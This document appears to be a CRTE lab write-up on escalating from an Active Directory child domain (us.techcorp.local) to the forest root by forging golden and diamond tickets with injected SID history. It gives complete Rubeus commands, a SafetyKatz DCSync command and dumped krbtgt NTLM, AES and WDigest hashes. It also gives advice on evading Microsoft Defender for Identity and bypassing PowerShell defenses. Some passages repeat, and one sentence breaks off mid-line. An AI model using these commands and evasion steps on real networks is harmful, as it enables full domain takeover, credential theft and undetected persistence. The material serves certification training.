





CRTE - Certified Red Team Expert
Cross Domain attacks - Child To Forest Root - SID-History KRBTGT Hash Abuse
Cross-domain attacks, specifically moving from a child domain to the forest root by abusing the krbtgt account, rely on the fundamental weaknesses in how Active Directory handles SID history and inter-realm Kerberos trust. When we compromise a child domain, we do not immediately have control over the forest, but through golden ticket attacks with manipulated SID history, we can escalate privileges and obtain the krbtgt hash of the forest root, effectively gaining complete control. The forest is the true security boundary in Active Directory, meaning that domain-level security measures cannot prevent escalation if we control a child domain. Each domain within the forest has its own krbtgt account, which encrypts and signs TGTs (Ticket Granting Tickets) issued by that domain’s KDC (Key Distribution Center). However, when a user needs to authenticate across domains within the same forest, inter-realm trust is used, and this mechanism can be abused. To escalate from a child domain to the forest root, we first need to compromise a domain administrator or a domain controller in the child domain. This allows us to extract the krbtgt hash of the child domain, enabling us to forge golden tickets. Normally, golden tickets allow unrestricted access within the compromised domain, but when we introduce SID history manipulation, we can expand our influence beyond the child domain. SID history is an attribute designed to allow smooth user migration across domains by maintaining the original Security Identifier (SID). However, since Kerberos does not inherently verify SID history, attackers can inject the Enterprise Admins SID (519) into a forged TGT. When this manipulated TGT is validated by the domain controller in the child domain, it will include the injected Enterprise Admins SID when issuing an inter-realm TGT for the forest root. Because this inter-realm TGT is trusted, the forest root domain controller treats the request as coming from an Enterprise Admin, granting us full forest-wide privileges. Detection mechanisms rely on monitoring abnormal authentication paths. A domain admin from a child domain should not normally be logging into the forest root domain controller, making it a red flag. However, we can evade detection by using a domain controller machine account instead of a domain administrator account. By injecting the SID of domain controllers (516) and Enterprise Admins (519) into our golden ticket, we can use DCSync to dump krbtgt from the forest root without triggering alerts typically associated with user logins. An alternative approach to remain stealthy is the diamond ticket, which improves upon the golden ticket by including pre-authentication steps. This method mimics legitimate Kerberos authentication flows, making it harder to detect. When combined with SID history injection, a diamond ticket grants seamless and persistent access to the entire forest. Once we obtain the krbtgt hash of the forest root, we can generate valid TGTs for any user within the entire Active Directory environment, ensuring long-term persistence. From this point, we own the entire forest, and no administrator action within the domain can fully evict us unless the krbtgt password is reset twice on all domain controllers. Mastering this attack means understanding the following key aspects: how krbtgt signs and validates TGTs, the function of SID history in cross-domain authentication, the mechanics of inter-realm Kerberos trust, and how to effectively evade logging and monitoring mechanisms. If we successfully execute this attack while remaining undetected, we achieve complete Active Directory dominance, allowing us to control and manipulate the entire forest at will.
Enumerating Trusts with PowerView
For this attack, we should start our enumeration to better understand how is our target organization configured based on trusts. Assuming that we have compromised our target child domain, our next stop should be to escalate our privilege all the wait up to the forest root (Child to Parent Domain). We can do our enumeration using PowerView. Let’s start by calling our PowerShell session using InvisiShell, this will help us to bypass all PowerShell Defense Mechanism before we call the new PowerShell process. RunWithRegistryNonAdmin.bat
then we import PowerView and make our enumeration. Import-Module .\PowerView.ps1
As we can see above our just compromised Child Domain (us.techcorp.local), has a BiDirectional Trust with the root domain (techcorp.local).Source and Target Names
- SourceName: The name of the source domain, which is us.techcorp.local.
- TargetName: The name of the target domain, which is techcorp.local.
Trust Type and Attributes
- TrustType: The type of trust, which is WINDOWS_ACTIVE_DIRECTORY, indicating that it is a Windows Active Directory trust.
- TrustAttributes: The attributes of the trust, which are WITHIN_FOREST, indicating that the trust is within the same forest.
Trust Direction
- TrustDirection: The direction of the trust, which is Bidirectional, indicating that the trust is bidirectional, allowing both domains to access resources in each other.
SAM ACCOUNT
SAM Username : krbtgt
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration :
Password last change : 7/4/2019 11:49:17 PM
Object Security ID : S-1-5-21-210670787-2521448726-163245708-502
Object Relative ID : 502
Credentials:
Hash NTLM: b0975ae49f441adc6b024ad238935af5
ntlm- 0: b0975ae49f441adc6b024ad238935af5
lm - 0: d765cfb668ed3b1f510b8c3861447173
Supplemental Credentials:
Primary:NTLM-Strong-NTOWF
Random Value : 819a7c8674e0302cbeec32f3f7b226c9
Primary:Kerberos-Newer-Keys
Default Salt : US.TECHCORP.LOCALkrbtgt
Default Iterations : 4096
Credentials
aes256_hmac (4096) : 5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5
aes128_hmac (4096) : 1bae2a6639bb33bf720e2d50807bf2c1
des_cbc_md5 (4096) : 923158b519f7a454
Forging Inter-Realm Golden Ticket
Let’s now create the inter-realm TGT and inject into our session. Remembering that we need to encode our Rubeus argument(golden) using ArgSplit.bat and do the copy/paste into our session where we will be running Rubeus. ArgSplit.bat
Now that we have encoded and copy/paste it into our session, Let’s run our Rubeus in the memory using our DotNet loader.
We use Rubeus to create a Golden Ticket for the administrator account in the child domain (us.techcorp.local). However, by injecting the Enterprise Admins SID from the forest root, we make the forged TGT look like it belongs to an Enterprise Admin in the entire forest. When this ticket is used, the forest root domain controller trusts it and grants privileged access to the entire AD forest. This is the core technique that enables child-to-forest root escalation using SID history abuse. C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /id:500 /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /groups:513 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /ptt
- C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn%
- /user:administrator
- /id:500
- /domain:us.techcorp.local
- /sid:S-1-5-21-210670787-2521448726-163245708
- /groups:513
- /sids:S-1-5-21-2781415573-3701854478-2406986946-519
- /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5
- /ptt
 Let’s now try to access the Domain Controller in the parent domain techcorp.local (techcorp-dc). bare in mind that, since we forget an Inter-realm Golden ticket, we can simply access any service in the parent domain.
dir \\TECHCORP-DC.techcorp.local\C$
Let’s now try to access the Domain Controller in the parent domain techcorp.local (techcorp-dc). bare in mind that, since we forget an Inter-realm Golden ticket, we can simply access any service in the parent domain.
dir \\TECHCORP-DC.techcorp.local\C$
 winrs -r:techcorp-dc.techcorp.local cmd
winrs -r:techcorp-dc.techcorp.local cmd

Forging Inter-Realm Diamond Ticket
When forging an inter-realm ticket to move from a child domain to the forest root, a golden ticket is effective but comes with detection risks. A diamond ticket, on the other hand, significantly improves stealth by including pre-authentication steps, making it blend more naturally into the Kerberos authentication flow. This is crucial when we want to bypass security monitoring solutions like Microsoft Defender for Identity (MDI) while avoiding suspicious logs on both the child domain controller (us-dc) and the forest root domain controller (techcorp-us).Golden Ticket vs. Diamond Ticket for Cross-Domain Attacks
A golden ticket is forged using the krbtgt hash of a compromised domain and allows us to generate valid TGTs (Ticket Granting Tickets) without needing to authenticate through the normal Kerberos flow. However, when we inject SID history to escalate from a child domain to the forest root, the authentication sequence lacks the normal Kerberos pre-authentication process, which raises red flags in Active Directory logs and security monitoring tools. A diamond ticket, in contrast, is not completely forged but instead is constructed from a legitimate authentication exchange. It allows us to insert malicious modifications into a valid Kerberos flow, preserving the pre-authentication and TGT validation steps. This makes detection significantly harder because the request appears more legitimate.Stealth Considerations: Suspicious Logs in us-dc and techcorp-us
When using a golden ticket, several indicators can alert blue teams or MDI:- Logon Activity on the Child Domain Controller (us-dc):
- Logon Activity on the Forest Root Domain Controller (techcorp-us):
Why We Use a Child Domain Controller Machine Account Instead of a Child Domain Administrator Account
Using a child domain admin account for the attack introduces further anomalies:- Domain Admins from a child domain should not request inter-realm TGTs frequently.
- MDI tracks logins from privileged accounts, and an admin suddenly authenticating to the forest root is highly unusual.
- If LAPS, HoneyTokens, or deceptive Kerberos monitoring is in place, it might trigger instant blue team alerts.
- Domain Controllers naturally request inter-realm TGTs during authentication replication and trust validation.
- A machine account logging in to the forest root is normal, whereas a child domain admin attempting it is suspicious.
- MDI is less likely to flag domain controller logons, making this approach stealthier.
Forging an Inter-Realm Diamond Ticket
To construct a diamond ticket, we follow these steps:
- Obtain a legitimate Kerberos authentication request using a valid machine account from the child domain (us-dc$).
- Intercept the request before it reaches the KDC and extract the necessary information.
- Modify the response, injecting SID history (Enterprise Admins SID 519).
- Replay the modified request, making it appear as if it naturally followed the authentication process.
- Receive a valid inter-realm TGT, now containing elevated privileges.
I’ll skip all the enumeration steps because we already have done this previously, we will be demonstrating how we can for the inter-realm Diamond ticket and also bypassing defense mechanisms implemented in our target environment like MDE/MDI as well. Back to our attacking machine, we should be able to forge this ticket. We should encode the Rubeus argument(diamond) with ArgSplit.bat and do the copy/paste into our session were Rubeus will be executed. User: krbtgt aes256: 5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 Child Domain SID: S-1-5-21-210670787-2521448726-163245708 Parent Domain SID: S-1-5-21-2781415573-3701854478-2406986946
ArgSplit.bat Le’ts now execute our Rubeus in the memory using our desired DotNet loader.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /enctype:aes /krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /tgtdeleg /ticketuser:us-dc$ /domain:us.techcorp.local /dc:us-dc.us.techcorp.local /ticketuserid:1000 /sids:S-1-5-21-2781415573-3701854478-2406986946-516,S-1-5-9 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
Le’ts now execute our Rubeus in the memory using our desired DotNet loader.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /enctype:aes /krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /tgtdeleg /ticketuser:us-dc$ /domain:us.techcorp.local /dc:us-dc.us.techcorp.local /ticketuserid:1000 /sids:S-1-5-21-2781415573-3701854478-2406986946-516,S-1-5-9 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

It is possible to see above that we were able to forge our inter-realm Diamond ticket and injected into a new CMD process. We can see as well by issuing the command klist, that our ticket does not present a valid C:\AD\Tools\Loader.exe -Path C:\Ad\Tools\SafetyKatz.exe -args "%Pwn% /user:techcorp\krbtgt /domain:techcorp.local" "exit”
SAM ACCOUNT
SAM Username : krbtgt
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration :
Password last change : 7/4/2019 1:52:52 AM
Object Security ID : S-1-5-21-2781415573-3701854478-2406986946-502
Object Relative ID : 502
Credentials:
Hash NTLM: 7735b8be1edda5deea6bfbacb7f2c3e7
ntlm- 0: 7735b8be1edda5deea6bfbacb7f2c3e7
lm - 0: 295fa3fef874b54f29fd097c204220f0
Supplemental Credentials:
Primary:NTLM-Strong-NTOWF
Random Value : 9fe386f0ebd8045b1826f80e3af94aed
Primary:Kerberos-Newer-Keys
Default Salt : TECHCORP.LOCALkrbtgt
Default Iterations : 4096
Credentials
aes256_hmac (4096) : 290ab2e5a0592c76b7fcc5612ab489e9663e39d2b2306e053c8b09df39afae52
aes128_hmac (4096) : ac670a0db8f81733cdc7ea839187d024
des_cbc_md5 (4096) : 977526ab75ea8691
Primary:Kerberos
Default Salt : TECHCORP.LOCALkrbtgt
Credentials
des_cbc_md5 : 977526ab75ea8691
Packages
NTLM-Strong-NTOWF
Primary:WDigest
01 3d5588c6c4680d76d2ba077526f32a5f
02 fe1ac8183d11d4585d423a0ef1e21354
03 eed2a6a9af2e107cdd5e722faf9ed37a
04 3d5588c6c4680d76d2ba077526f32a5f
05 fe1ac8183d11d4585d423a0ef1e21354
06 a5a3b7dd758f68b0a278704adb369bab
07 3d5588c6c4680d76d2ba077526f32a5f
08 0ef30f135647c7c486081630caf708da
09 0ef30f135647c7c486081630caf708da
10 65974a65a535c47de5c6b6712ffa5c8d
11 fe790227e59a7b92b642884eacb84841
12 0ef30f135647c7c486081630caf708da
13 3c5a73e8774f215ffdd890f5e6346a05
14 fe790227e59a7b92b642884eacb84841
15 752720442d3f869baff615ae37a01d64
16 752720442d3f869baff615ae37a01d64
17 994c18bfe477093681c6b1d60ca56ac9
18 5fdbdb1b61e0717ba72b31741ae7ea19
19 535375d7fc7b3ec068521ac5ab6680d4
20 64d869a620dced95df997d91c5c2ecda
21 16b97c2628a32cb876ede8bb4e6d5253
22 16b97c2628a32cb876ede8bb4e6d5253
23 eca0357ae57e1df149e2d016494173c9
24 6e22a7980efe7c6bf44f821ea902d209
25 6e22a7980efe7c6bf44f821ea902d209
26 bfd73a5e0a64a9c334d1108004a98be5
27 e55f4d4f79067737d4a95f11fdce1a13
28 0141dc3481204f4334a0cb4cf6be2067
29 8b31e2cda5a9dd5d728f55f44dc8e7ea
mimikatz(commandline) # exit
Even though we did not inject the Enterprise Admins SID (519), we were still able to perform a DCSync attack on the forest root domain because we injected the Domain Controllers SID (516) and the Enterprise Domain Controllers SID (5-9). Domain Controllers inherently have replication rights, which means that when we forge a ticket with the 516 SID, we make our identity appear as a legitimate domain controller. Since domain controllers are trusted to replicate directory data, the forest root’s domain controller treats our request as valid and allows us to extract the krbtgt hash. The Enterprise Domain Controllers SID (5-9) further strengthens our forged ticket by granting us authentication privileges across domains in the forest. This ensures that when we interact with the forest root’s KDC, it recognizes us as a trusted domain controller from a child domain. Although we do not see techcorp.local explicitly listed in klist, that is because we never requested a service ticket (TGS) for a specific service in the root domain. However, since our TGT includes the necessary SIDs, the root domain still accepts our requests. In short, the attack worked because Active Directory trusts domain controllers to synchronize data, and by injecting the right SIDs, we effectively impersonated a domain controller in the forest, gaining the ability to extract the krbtgt hash without ever needing explicit Enterprise Admin privileges.